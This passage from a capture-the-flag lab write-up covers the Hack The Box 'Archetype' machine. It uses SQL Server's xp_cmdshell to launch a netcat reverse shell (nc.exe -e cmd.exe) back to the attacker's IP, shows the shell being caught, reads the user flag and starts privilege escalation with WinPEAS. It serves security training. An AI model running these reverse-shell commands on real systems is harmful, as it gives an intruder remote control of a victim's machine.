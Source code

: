 And we execute this command on the target :

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] YOUR_PORT"
```

In my case :

```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe 10.10.14.231 1337"
```

And we have the connection on [Netcat](../../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.231] from (UNKNOWN) [10.129.52.2] 49676
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
# Submit Flags
## User flag

We can move through the system with `dir` (`ls` eq for win), `cd` (moving in directories) and see files with `type` (`cat` eq for win) :

```powershell
Directory of C:\Users\sql_svc\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,712,535,040 bytes free

C:\Users\sql_svc\Desktop>type user.txt
type user.txt
 {{REDACTED_FLAG}}
```
## Root flag

We need [Privilege Escalation](../../../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) to see the root flag, we'll use [WinPEAS](../../../../3%20-%20Tags/Hacking%20Tools/WinPEAS.md) to autpmatically search for vectors, first we locate it and copy it, if you don't have it you can download it here : [https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe] :

```
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ locate winpeas         
/usr/bin/winpeas
/usr/share/applications/kali-winpeas.desktop
/usr/share/icons/Flat-Remix-Blue-Dark/apps/scalable/kali-winpeas.svg
/usr/share/icons/Flat-Remix-Blue-Dark/apps/scalable/winpeas.svg
/usr/share/icons/hicolor/16x16/apps/kali-winpeas.png
/usr/share/icons/hicolor/22x22/apps/kali-winpeas.png
/usr/share/icons/hicolor/24x24/apps/kali-winpeas.png
/usr/share/icons/hicolor/256x256/apps/kali-winpeas.png
/usr/share/icons/hicolor/32x32/apps/kali-winpeas.png
/usr/share/icons/hicolor/48x48/apps/kali-winpeas.png
/usr/share/icons/hicolor/scalable/apps/kali-winpeas.svg
```